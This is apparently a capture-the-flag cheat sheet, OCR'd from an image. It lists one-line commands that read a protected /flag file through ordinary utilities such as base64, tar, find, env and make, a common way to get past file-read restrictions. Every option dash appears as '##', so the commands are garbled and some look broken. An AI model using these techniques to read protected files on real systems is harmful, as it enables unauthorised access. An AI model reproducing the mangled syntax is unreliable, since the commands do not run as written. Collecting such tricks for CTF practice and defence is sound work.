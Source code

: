 ## base32
```
base32 /flag | base32 ##d
```
## base64 
```
base64 /flag | base64 ##d
```
## split
```
split ##nl/1/1 /flag
```
## gzip
```
gzip ##c /flag | gzip ##d
```
## bzip2
```
bzip2 ##c /flag | bzip2 ##d
```
## zip
```
zip ##q /tmp/f.zip /flag && unzip ##p /tmp/f.zip flag
```
## tar
```
tar ##cf /tmp/f.tar /flag && tar ##O ##xf /tmp/f.tar flag
```
## ar
```
ar r /tmp/f.a /flag && ar p /tmp/f.a flag
```
## cpio
```
echo /flag | cpio ##o
```
## genisoimage
```
genisoimage ##sort /flag
```
## env
```
env /bin/cat /flag
```
## find
```
find /flag ##exec cat {} \;
```
## make 
```
make ##f ## <<'EOF'
all:
	cat /flag
EOF
```